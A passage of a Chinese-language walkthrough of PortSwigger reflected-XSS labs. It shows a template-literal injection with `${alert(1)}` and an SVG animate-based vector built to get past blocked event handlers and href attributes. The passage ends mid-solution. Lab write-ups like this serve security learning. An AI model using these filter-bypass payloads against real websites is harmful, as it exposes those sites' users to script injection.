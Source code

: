 ### 題目解釋
Template literals，類似 Py 的 f-string
### 解答

一樣從最基本的開始
```
var message = `0 search results for '\u003cscript\u003ealert(1)\u003c/script\u003e'`;
document.getElementById('searchMessage').innerText = message;
```

發現他是用 
```
``
```
所以可以用

```
`${alert(1)}`
```

類似 Python 的 f-string 方法來解


## [Lab: Reflected XSS with event handlers and href attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked)
### 題目敘述
 This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor href attributes are blocked..

To solve the lab, perform a cross-site scripting attack that injects a vector that, when clicked, calls the alert function.

Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:
`<a href="">Click me</a>`

### 題目解釋
SVG Attribute Click XSS

### 解答

首先發現 `svg` Tag 跟 `<a>` 都可以使用
```html
<svg><animate attributeName=x dur=1s repeatCount=2 />
```

接下來可以讓 svg 裡面出現一些文字
```
<svg><a><animate attributeName=x dur=1s repeatCount=2 /><text x=20 y=20>Click Me</text></a>
```

手動寫 Attribute Name 跟 hrefs
